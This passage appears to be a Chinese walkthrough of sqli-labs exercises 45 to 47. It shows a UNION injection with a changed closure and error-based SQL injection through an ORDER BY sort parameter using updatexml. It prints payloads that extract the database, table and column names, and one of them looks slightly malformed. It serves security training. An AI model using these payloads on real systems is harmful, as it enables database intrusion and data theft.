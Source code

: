 又是改变了闭合方式，经过之前的题目考验应该都了解得差不多

这次的闭合方式是'),其余的...与之前完全一样

样例payload：

`-1') union select 1,2,3 #`
***

# less 46(ORDER BY数字型报错注入)
## 原理

题目是将输入的内容插入到ORDER BY语句中进行输出的

## 步骤
发现一个非常新颖的题型

按照题目给的提示给sort赋一个值发现

[![BEUEUP.jpg](https://s1.ax1x.com/2020/10/23/BEUEUP.jpg)](https://imgchr.com/i/BEUEUP)

连续给sort=1；2；3发现

表中内容分别随第一列第二列第三列改变

当传入4时发现报错

[![BEUQDs.jpg](https://s1.ax1x.com/2020/10/23/BEUQDs.jpg)](https://imgchr.com/i/BEUQDs)

报错内容和oder by语句一样，也就是说，sort被插入到order by后面了

1.于是我们可以利用报错注入爆出数据库名

`?sort=4 and updatexml(1,concat(0x7c,(select database()),0x7c),1) --+`

2.爆表名

`?sort=1 and updatexml(1,concat(0x7c,(select group_concat(table_name) from information_schema.columns where table_schema='security' and table_name ),0x7c),1) --+`

没有爆出来想要的就用not in逐个过滤一下，直到剩下users表

3.爆列名

`?sort=1 and updatexml(1,concat(0x7c,(select group_concat(column_name) from information_schema.columns where table_name='users'%20 ),0x7c),1) --+`



***
# less 47(ORDER BY 字符型报错注入)
## 原理

还是和上一题一样的配方，一样的味道，就是改了一下闭合方式
